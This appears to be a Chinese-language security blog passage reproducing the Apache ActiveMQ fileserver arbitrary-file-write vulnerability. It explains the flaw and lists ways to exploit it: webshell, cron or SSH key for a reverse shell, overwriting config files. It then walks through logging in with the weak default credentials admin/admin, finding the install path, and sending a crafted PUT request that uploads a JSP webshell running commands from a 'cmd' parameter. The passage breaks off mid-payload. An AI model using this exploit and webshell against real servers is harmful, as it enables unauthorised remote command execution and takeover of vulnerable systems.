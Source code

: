 - 其使用率并不高  
  
- 文件操作容易出现漏洞  
  
所以，  
ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启）；在5.14.0版本以后，彻底删除了fileserver应用。换句话，任意文件写漏洞在版本5.14.0之前，因为之后fileserver就被删除了。  
  
本漏洞出现在fileserver应用中，漏洞原理：  
  
就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。  
  
  
文件写入有几种利用方法：  
- 写入webshell  
  
- 写入cron或ssh key等文件  
  
- 写入jar或jetty.xml等库和配置文件  
  
1、写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；  
  
  
2、写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门）  
  
  
3、写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。  
  
  
漏洞影响范围：  
版本5.0.0--5.14.0  
  
  
漏洞复现  
  
  
访问后台路径  
  
http://10.22.250.67:8161/admin/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZzE52cnR2w8YYaDcgD4avrAsa8RECrAxjRYdia7Y4Ud9mPGm47IqNZPg/640?wx_fmt=png&from=appmsg "")  
  
  
使用弱口令 admin/admin  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZMgHiawVYkn7iawhsxiclrX57gasoOCgG2JYHymicXHAsGtlibI7e5u1bGnQ/640?wx_fmt=png&from=appmsg "")  
  
  
ActiveMQ版本为5.11.1在漏洞影响范围之内Apache ActiveMQ 5.x~5.14.0  
  
  
访问  
```
http://10.22.250.67:8161/admin/test/systemProperties.jsp 
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZvPZgZsuGFRy7bMckkb0RU7FbKEczRXfkS0K7hoRxB6XjW1D2Ciaic3mw/640?wx_fmt=png&from=appmsg "")  
  
  
查看ActiveMQ的绝对路径为 /opt/activemq  
  
  
构造数据包，上传后门  
```
PUT /fileserver/1.txt HTTP/1.1
Host:10.22.250.67:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1;   Win64; x64; Trident/5.0)
Connection: close
Content-Length: 327
<%@ page import="java.io.*"%>
<%
 out.print("Hello</br>");
 String   strcmd=request.getParameter("cmd");
 String line=null;
 Process   p=Runtime.getRuntime().exec(strcmd);
```